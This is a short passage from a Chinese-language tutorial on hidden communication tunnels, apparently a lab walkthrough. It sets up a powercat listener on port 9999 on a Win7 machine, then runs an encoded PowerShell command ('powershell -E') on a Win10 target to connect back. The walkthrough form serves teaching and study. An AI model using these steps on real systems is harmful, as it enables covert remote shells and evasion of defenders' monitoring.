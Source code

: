 ![](img/隐藏通信隧道基础知识/59.png)

然后再Win7上监听9999端口等待目标连接：

```
powercat -l -p 9999 -v
```

![](img/隐藏通信隧道基础知识/60.png)

最后在Win10上执行命令：

```
powershell -E 这里是刚刚生成的加密密文
```
